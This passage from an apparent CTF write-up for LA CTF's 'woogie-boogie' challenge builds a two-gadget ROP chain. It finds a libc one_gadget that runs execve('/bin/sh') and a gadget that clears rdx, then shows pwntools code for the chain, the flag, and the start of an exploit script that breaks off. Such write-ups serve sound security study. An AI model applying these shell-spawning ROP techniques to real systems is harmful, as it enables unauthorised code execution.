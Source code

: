 Now that we have a read gadget that allows a two gadget rop chain we need to
find candidates. Of course the first thing we do is check
[one_gadget](https://github.com/david942j/one_gadget) and get this promising
gadget:

### *one_gadget*

```  
...  
0xe3b01 execve("/bin/sh", r15, rdx)  
constraints:  
 [r15] == NULL || r15 == NULL  
 [rdx] == NULL || rdx == NULL  
...  
```

`r15`is already NULL, but this isn't true for `rdx` which stores the count for
`read()`. Still this is promising and we only need to find a one gadget that
allows clearing `rdx`.

clear rdx

```bash  
ROPgadget --binary libc.so.6 | grep "ret$" | grep "sub rdx"  
...  
0x00000000000ce383 : sub rdx, rax ; jbe 0xce3c0 ; add rax, rdi ; ret  
```

Luckily we find this gadget , this is especially useful, because `rax` stores
the number of bytes read using `read()`so we only need to ensure that we
`read()` the same number of bytes as specified count so 0x10 (which we do
anyway).

```python  
rce = flat(  
 LIBC + 0xce383, # clear rdx  
 LIBC + 0xe3b01 # one_gadget  
)

it() # or t.interactive()  
```

an we spawn a shell (might require a few tries, avg. 8)

Flag: `lactf{l1ne_buff3r1ng_1s_s0_us3ful!!}`

### Exploit

```python  
#!/usr/bin/env python  
from pwn import *

GDB_OFF = 0x555555554000  
IP = 'chall.lac.tf'  
PORT = 31166  
BINARY = './woogie-boogie'  
ARGS = []  
ENV = {}

GDB = f"""  
set follow-fork-mode parent

# atol done  
# b * readint+0x3d

# call swap  
# b * main+0xbb

```